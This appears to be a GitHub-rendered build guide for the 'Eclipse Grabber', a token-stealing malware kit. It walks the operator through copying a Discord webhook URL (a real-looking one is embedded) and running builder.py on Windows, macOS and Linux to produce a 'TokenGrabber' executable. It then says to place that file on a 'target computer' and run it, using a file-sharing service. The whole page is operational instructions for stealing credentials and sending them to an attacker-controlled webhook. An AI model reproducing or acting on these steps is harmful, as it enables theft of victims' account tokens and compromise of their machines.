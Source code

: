# Build Guide for the Eclipse Grabber
## Run the builder.py Script

To build an eclipse grabber you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

![image](https://imgur.com/fEIbIfb.png)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w [YOUR_WEBHOOK_URL](https://discord.com/api/webhooks/1212083584374935663/9mzODQg8i0UJ4UllSIvA0nU-595Jx99jQupwO-wcFr6cM4BIt6n7pOpBTVHtY0NpoWb_) -o TokenGrabber
```
### MacOS
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your executable file.

Once the builder is done, you will find your file in the **dist** directory.

## Execute built Eclipse Grabber

Now that you have the Executable file you can share it with the target coputer and run it. You can use a file uploading service like [this](https://file.io) one to **upload/download** the file to the computer.
